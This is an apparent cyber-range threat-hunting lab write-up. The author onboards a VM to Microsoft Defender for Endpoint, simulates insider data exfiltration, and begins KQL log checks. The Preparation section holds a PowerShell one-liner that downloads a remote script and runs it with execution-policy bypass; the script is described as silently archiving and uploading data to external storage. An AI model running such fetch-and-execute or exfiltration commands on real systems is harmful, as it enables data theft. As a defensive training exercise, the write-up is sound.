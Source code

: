 The objective of this threat hunt was to analyze logs, identify any evidence of archiving behavior, and determine whether exfiltration attempts occurred.

## Preparation

Before the analysis, I ensured that the VM (samson-windows-) was successfully onboarded to MDE. Once active, I simulated malicious insider behavior by executing a PowerShell script that automated the compression and simulated upload of internal files. This helped generate realistic telemetry for review.

- Created VM and onboarded to Microsoft Defender for Endpoint
- RDP connection established to VM
- Downloaded and ran MDE onboarding package
- VM successfully reporting in Defender portal

### PowerShell Command

-------------------------------------------------------
powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1'; cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
-------------------------------------------------------

This command downloaded and executed the ExfiltrateData.ps1 script, which silently installed 7-Zip, created compressed archives of sample "employee data," and simulated uploading them to an external Azure storage bucket.

In an enterprise context, this type of activity would strongly suggest unauthorized data handling or insider exfiltration. Allowing the VM to run for several minutes ensured that sufficient telemetry was collected across all relevant MDE tables for subsequent analysis.

## Data Collection

With the environment set up, I verified that Defender for Endpoint was actively ingesting telemetry into the core tables:

- DeviceFileEvents
- DeviceProcessEvents
- DeviceNetworkEvents

I ran an initial query to confirm that new records were appearing in real time.

### KQL Check for Recent Logs

-------------------------------------------------------
kql
DeviceFileEvents
| order by Timestamp desc
| take 10
-------------------------------------------------------
